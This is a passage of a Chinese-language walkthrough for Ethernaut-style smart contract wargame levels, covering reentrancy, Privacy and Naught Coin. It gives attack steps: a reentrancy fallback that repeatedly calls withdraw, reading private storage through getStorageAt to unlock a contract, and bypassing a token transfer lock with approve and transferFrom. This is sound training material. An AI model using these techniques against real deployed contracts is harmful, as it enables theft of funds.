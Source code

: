 }
fallback() external payable {ReEntrance(Instance).withdraw(msg.value);}
｝
部署上述合约，并在constructor中填写实例的地址。
1. 在console中输入：
contract.donate("实例地址",toWei("0.6"))
1. 再回过头来调用hack函数，并输入参数：60000000000000000
2. 搞定
Privacy
要求
- 理解 storage 的原理
- 理解 parameter parsing 的原理
- 理解 casting 的原理
漏洞
1. 根据solidity 文档中的变量存储原则,以太坊存储数据时是以每32bytes作为一格顺序存储的,而不足32字节的变量相互共享并补齐32字节（即:存储大小少于 32 字节的多个变量会被打包到一个 存储插槽storage slot 中）。
2. 第一个32 字节就是由locked（1位）、flattening（3位）、denomination（8位）、awkwardness（16位）组成，另外由于常量(constant)是无需存储的，所以从第二个32 字节开始就是 data。 因此只需要将第五个存储槽内容取出即可。
攻略
1. 使用以下语句获取data的数据
web3.eth.getStorageAt(instance, 5 ,function(x,y){console.info(y);})
1. 调用unlock函数，并传入获取到的data[2]，即前32位
1. 搞定
Naught Coin
要求：
- 立即完成转走我们账户所拥有的代币
漏洞
这个代币合约虽然继承了ERC20，但是它只重写(override)了ERC20的transfer函数，并且lockTokens这个modifer里面也没有对账户的所有权进行限制，因此我们可以使用approve和transferFrom函数来完成转账
攻略
1. 在console面板调用approve函数：
contract.approve(player,toWei("1000000"))
1. 获取授权之后，再调用transferFrom函数
contract.transferFrom(player,contract.address,toWei("1000000"))
1. 搞定